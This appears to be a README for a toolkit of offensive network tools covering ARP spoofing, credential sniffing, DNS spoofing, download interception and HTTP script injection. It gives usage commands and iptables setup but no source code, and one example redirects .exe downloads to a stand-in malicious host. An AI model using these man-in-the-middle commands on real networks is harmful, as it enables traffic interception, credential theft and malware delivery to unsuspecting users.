 # Network Utilities Collection

## Overview
This collection of network utilities provides essential tools for network analysis and security testing. Use them responsibly and in accordance with legal and ethical guidelines.

## Tools

### 1. MAC Address Changer Tool

#### Description
This tool allows you to change the MAC address of a network interface, which can be useful for anonymity or network testing.

#### Usage
To change the MAC address of a specified network interface, use the following command:

```bash
python macchanger.py -i <interface> -m <new_mac>
```
#### Example
```bash
python macchanger.py -i eth0 -m 00:11:22:33:44:55
```

### 2. Network Scanner Tool

#### Description
This tool scans a specified IP address or range of IP addresses to identify active devices on the local network.

#### Usage
To run the Network Scanner Tool, use the following command:

```bash
python network_scanner.py -t <target_ip>
```
#### Example
```bash
python network_scanner.py -t 192.168.1.0/24
```
### 3. ARP Spoofing Tool

#### Description
This tool performs ARP spoofing, allowing an attacker to intercept and manipulate traffic between two devices on a local network.

#### Usage
To run the ARP Spoofing Tool, use the following command:

```bash
python arpspoof.py -t <target_ip> -s <spoof_ip>

```
#### Example
```bash
python arpspoof.py -t 192.168.1.10 -s 192.168.1.1
```

### 4. Packet Sniffer Tool

#### Description
This tool captures and analyzes packets on a specified network interface, allowing you to extract sensitive information such as usernames and passwords.

#### Usage
To run the Packet Sniffer Tool, use the following command:

```bash
python packet_sniffer.py
```
#### Example
```bash
python packet_sniffer.py
```

### 5. DNS Spoofing Tool

#### Description
This tool intercepts DNS requests and spoofs DNS responses, redirecting the target to a specified IP address for a given domain.

#### Usage
Run the tool using the following command:

```bash
sudo python3 dnsspoof.py -w <website> -i <spoof_ip>
```

```bash
sudo python3 dnsspoof.py -w example.com -i 192.168.1.100
```
#### Install dependencies:
```bash
pip install netfilterqueue
```
#### Notes
Use iptables to redirect DNS requests to the Netfilter queue:
```bash
sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
```
Clear iptables after use
```bash
sudo iptables --flush
```
### 6. File Download Interception Tool

#### Description
This tool intercepts HTTP requests for specific file types (e.g., `.exe`, `.pdf`) and redirects the download to a specified location using Scapy and NetfilterQueue.

#### Usage
Run the tool using the following command:

```bash
sudo python3 file_intercept.py -f <file_type> -d <redirect_url>
 ```
#### Example:
```bash
sudo python3 file_intercept.py -f .exe -d http://malicious-url.com/fake.exe
```
#### Install dependencies:
```bash
pip install netfilterqueue
```
#### Notes
Use iptables to redirect DNS requests to the Netfilter queue:
```bash
sudo iptables -I FORWARD -p tcp --dport 80 -j NFQUEUE --queue-num 0
```
Clear iptables after use
```bash
sudo iptables --flush
```
# 7. Packet Injection Tool

## Description

This tool allows for packet injection into HTTP responses using Python, `scapy`, and `netfilterqueue`. It intercepts network traffic and modifies the payload to inject custom code.

## Prerequisites

- **Python 3.x**
- **Scapy**: Install with `pip install scapy`
- **NetfilterQueue**: Install with `pip install netfilterqueue`

## Installation

1. Ensure you have the necessary Python libraries installed.
2. Save the provided packet injection code in a file (e.g., `injector.py`).

## Usage

### Running the Script

Run the script with root privileges, specifying the injection code:

```bash
sudo python injector.py -c "<script>Your Injection Code Here</script>"
```
#### Example:
```bash
sudo python injector.py -c "<script>alert('Hello, World!');</script>"

```
#### Install dependencies:
```bash
pip install netfilterqueue
```
#### Notes
Use iptables to redirect DNS requests to the Netfilter queue:
```bash
sudo iptables -I FORWARD -p tcp --dport 80 -j NFQUEUE --queue-num 0
```
Clear iptables after use
```bash
sudo iptables --flush
```
## Conclusion
This collection of network utilities provides essential tools for network analysis and security testing. Use them responsibly and in accordance with legal and ethical guidelines.

